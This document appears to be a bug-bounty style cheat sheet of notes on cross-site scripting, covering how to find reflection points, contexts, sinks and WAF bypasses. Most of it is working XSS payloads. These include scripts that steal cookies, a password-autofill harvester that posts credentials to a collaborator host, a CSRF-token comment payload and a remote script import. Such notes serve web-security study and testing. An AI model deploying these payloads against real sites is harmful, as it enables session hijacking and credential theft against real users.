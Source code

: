 # References
- Michael Sommer videos
- [Nahamsec Video](https://www.youtube.com/watch?v=ej2O4lOUzRc)
- [z3nsh3ll Playlist](https://www.youtube.com/playlist?list=PLWvfB8dRFqbZG5cw2OrnEmzSzorxRuxFV)
- https://public-firing-range.appspot.com/
- [Portswigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Tools and Burp Extensions
- Web Developer Tools
- DOM Invader - Burp Suite Browser Extension

# What is it?
- When an attacker is able to inject javascript into a website
- Three types:
    - Reflected
    - Stored
    - DOM

# Recognition
- Remember that HTML parsing occurs before Javascript parsing
- Figure out where the input ends up. Is it a tag attribute, a script tag, etc?
- Are certain tags or attributes blocked? Use intruder and an XSS cheatsheet to find unblocked tags/attributes
- Is there any special handling for data? Do urls get turned into links?
- How are special characters handled? insert '<>:;"\/ to find out if they are being encoded.
```html
'"<a><<adsa>>\';//
```
- Introduce an event handler
```html
<u/onmouseover=alert(1)>test123
<img src=x onerror=alert(1)>
<!-- Other functions besides alert() can be used -->
Confirm
import('https://mysite.com/1.js')
print()
<!-- Example Below -->
<img src=x onerror=import('https://mysite.com/1.js')>
<!-- -->
```
- Every parameter in a url is a possible input field for XSS payloads
- Input a payload in the field and use `Control+F` to see if it reflects
- After that, use `Inspect` to check the DOM, also check the source code with the`view-source` functionality, or the HTTP response
- Determine the context where the input is seen 
- Figure out how to execute javascript within the context
- Determine what is getting encoded: ' " / \ < > ?
```html
test123;//
'"<a><<adsa>>\';//
</script>test123<img src=x onerror=alert(1)>
'; alert(1)//test123
%23f5f5f5</style>test123<script>alert(1)</script>
javascript:alert(document.cookie)
<iframe src="vulnerable-website#" onload="this.src+='<img src=1 onerror=print()>'" width="800" height="800"></iframe>
<iframe src="vulnerable-website" onload=this.style.width='100px'>
<img src=1 oNeRrOr=alert`1`>
'-alert-'
\'-alert(1)//
'"><svg/onload=fetch(`//url/${encodeURIComponent(document.cookie)}`)>
```
- Check for other parameters in the source code to find more possible injection vectors
- Test all the fields that are presented within the webpage
- Check the element and see if it is being encoded `&quot;` as an HTML entity
- Try to `Edit as HTML` and see if the special characters got html encoded
- There might be controls put in place via the browser but not the API
- Some payloads might not be allowed via the UI but sending them via the HTTP request on burp suite bypasses these controls

# Some Exploit payloads
- Payload 1
```js
var xhr = new XMLHttpRequest();
xhr.onload=function(){
    const x = new XMLHttpRequest();
    x.open('GET', 'url=?'+btoa(this.responseText));
    x.send();
};
xhr.open('GET', 'URL');
xhr.send();
```
- Payload 2
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://burp-collaborator/?'+btoa(document.cookie));
xhr.send();
```
- Payload 3
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- Payload 4
```html
<!--watch video "CSRF XSS payload example"-->
<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 5);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'someemail@email.net');
data.append('website','https://website.net');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```
- Payload 5
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">
```
- Payload 6
```html
<script>
location = 'url-here';
</script>
```
- [CSRF XSS payload example](https://www.youtube.com/watch?v=N_87S9XVy0w)
- [Password Autofill-Payload example](https://www.youtube.com/watch?v=I6TOtXSOZ90)

# XSS Context
- Remember that HTML parsing occurs before Javascript parsing
- XSS in HTML tag attribute: Find a way to terminate the attribute and add a new one with an event handler that allows you to inject the payload
- href attribute - javascript:alert()
- XSS in Javascript template literals ``
```js
// Use the ${...} to insert the payload
${insert-payload-here}
```
- Try double curly brackets and see if it is evaluated `{{ 1 + 1 }}`
- Inside eval
- Are the angle brackets <> getting encoded/escaped? Is the encoding recursive or just the first instance? Try `<><img src=x onerror=alert()>`
- Hidden field or canonical link: Use accessKey event `accessKey="X" onclick="alert(1)"`[Portswigger Article](https://portswigger.net/research/xss-in-hidden-input-fields)
- Inside a quoted tag attribute Use HTML-encoding: After the HTML tags and attributes are parsed, the browser will perform HTML-decoding of the tag attribute values `&apos;-alert()-&apos;`

# Sinks
- innerHTML
    - On modern web browsers `script` elements inserted with innerHTML are sanitized
    - On modern web browsers `onload` events inside `svg` elements inserted with innerHTML are sanitized 
    - use `<img>` or `<iframe>` as viable options to inject a payload
    - [W3 HTML5 - innerHTML](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0)
    - [Developer Mozilla - innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
- Sources and sinks in third-party dependencies
    - Each one has it quirks, investigate about them.
    - jQuery
        - attr(): this function changes the attributes of DOM elements. If the sink is an `href` attribute, then inject a malicious `javascript:payload-here`
        - $(): this function selector joined with the insecure usage of the `contains` method could be vulnerable due to malicious DOM element injection. Example involving `location.hash`, payload: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
    - AngularJS
        - ng-app: If this attribute is used on a HTML element AngularJS will execute javascript inside double curly braces `{{$on.constructor('alert(1)')()}}`
# Obfuscation
- Some payloads may need to be obfuscated to bypass WAF
```html
<img src=1 oNeRrOr=alert`1`>
```
